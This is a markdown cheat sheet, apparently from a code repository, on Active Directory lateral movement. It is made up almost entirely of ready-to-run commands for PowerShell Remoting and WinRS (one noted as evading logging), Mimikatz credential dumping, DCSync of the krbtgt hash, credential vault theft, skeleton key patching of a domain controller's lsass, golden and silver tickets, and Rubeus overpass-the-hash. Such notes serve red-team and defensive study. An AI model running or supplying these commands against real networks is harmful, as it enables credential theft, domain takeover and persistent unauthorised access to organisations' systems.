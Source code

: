 ## AL Lateral Movement

- [PowerShell Remoting](#powershell-remoting)
    + [Enable PowerShell Remoting](#enable-powershell-remoting)
    + [Create Remote Session](#create-remote-session)
    + [Entering into Existing PSSession](#entering-into-existing-pssession)
    + [Remote Execution](#remote-execution)
- [WinRS](#winrs)
    + [Execute Remote Command](#execute-remote-command)
- [MimiKatz PowerShell Port](#mimikatz-powershell-port)
    + [Dump Credentials on Local Machine](#dump-credentials-on-local-machine)
    + [OverPass the Hash (OPTH](#overpass-the-hash--opth)
    + [Get KRBTGT Hash](#get-krbtgt-hash)
    + [Credentials from Credential Vault](#credentials-from-credential-vault)
    + [Patch a DC `lsass` process** allowing to use any user with single password. DA privileges are required.](#patch-a-dc--lsass--process---allowing-to-use-any-user-with-single-password-da-privileges-are-required)
    + [Golden Ticket](#golden-ticket)
    + [Silver Ticket](#silver-ticket)
    + [Skeleton Key Attack](#skeleton-key-attack)
- [Rubeus](#rubeus)
    + [OverPass The Hash](#overpass-the-hash)


### PowerShell Remoting
---
Uses TCP-5985. T
```powershell
# Check computers where PS Remoting can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```

##### Enable PowerShell Remoting  
```powershell
C:> Enable-PSRemoting 
```
##### Create Remote Session 
```powershell
# Create a Session in Local Computer
C:> New-PSSession

# Create Session on Remote Computer
C:> $remote_computer = New-PSSesion -ComputerName <computer>

# Create Session on Multiple Computers
C:> $s1, $s2, $s3 = New-PSSession -ComputerName Server01,Server02,Server03
```
##### Entering into Existing PSSession
```powershell
# A Completelly New Session to Computer
C:> Enter-PSSession -ComputerName <computer>

# A session created previously with New-PSSession
C:> $remote_computer = New-PSSesion -ComputerName <computer>
C:> Enter-PSSession -Session $remote_computer
```
##### Remote Execution
```powershell
# Remote Execution With Credentials
c:> $SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
C:> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
C:> Invoke-Command -ComputerName <computer> -Credential $Cred -ScriptBlock {whoami}

# Run Local Script in Remote Computer
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName <computer>
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName (Get-Content <list_of_servers>)

# Run Command (Script Block) on Remote Computer
C:> Invoke-Command -ComputerName <host> -Credential <domain>\<user> -ScriptBlock {whoami;hostname}
C:> Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

# Execute Locally Loaded Function in Remote Computer
C:> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName <host>

# Persistent Connection, Series of Commands Sharing Data
C:> $s = New-PSSession -ComputerName <computer>                             # Without this, 2 lines below wouldn't share data on $s
C:> Invoke-Command -Session $s -ScriptBlock {$p = Get-Process PowerShell}
C:> Invoke-Command -Session $s -ScriptBlock {$p.VirtualMemorySize}          # $sp is from previous command

```

### WinRS
---
```powershell
# Check computers where WinRS can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```
Uses same port as PSRemoting, and evades Remoting Logging.
##### Execute Remote Command
```powershell
# Use `cmd`as command to get a shell
C:> winrs -remote:<computer> -u:<domain>\<user> -p:<password> <command>
```

### MimiKatz PowerShell Port
---
Requires Local Admin Privileges on computer where is run.
```powershell
C:> . .\Invoke-Mimikatz.ps1
```
##### Dump Credentials on Local Machine
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
##### OverPass the Hash (OPTH
```powershell
# Starts Powershell with logon type 9
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<fqdn_domain> /aes256:<user_aes256key> /run:cmd.exe"'
```
##### Get KRBTGT Hash
```powershell
# Run on DC, Domain Admin privileges required
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <dc-hostname>

# DCSync: Domain Admin privileges required to run 
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```
##### Credentials from Credential Vault
```powershell
# Interesting Credentials are stored here, like credentials for scheduled tasks
C:> Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
##### Patch a DC `lsass` process** allowing to use any user with single password. DA privileges are required.
```powershell
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname_full_FQDN>
```
##### Golden Ticket
```powershell
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:<username> /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:<krbtgt_aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# For Administrator User
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:krbtgt_aes_key> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
##### Silver Ticket
```powershell
# Get Privileges to access HOST service as Administrator con host
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn> 
    /service:HOST /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# Privileges for RPCSS service
C:> Invoke-Mimikatz -Command '0"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn>  
    /service:RPCSS /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# With this two tickets, can execute WMI commands on host
```
##### Skeleton Key Attack
```powershell
# To run on DC. Allows init session with password mimikatz
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```
### Rubeus
---
##### OverPass The Hash
```powershell
C:> Rubeus.exe asktgt /user:<username> /aes256:<aes256_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
C:> Rubeus.exe asktgt /user:<username> /ntlm:<ntlm_rc4_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```
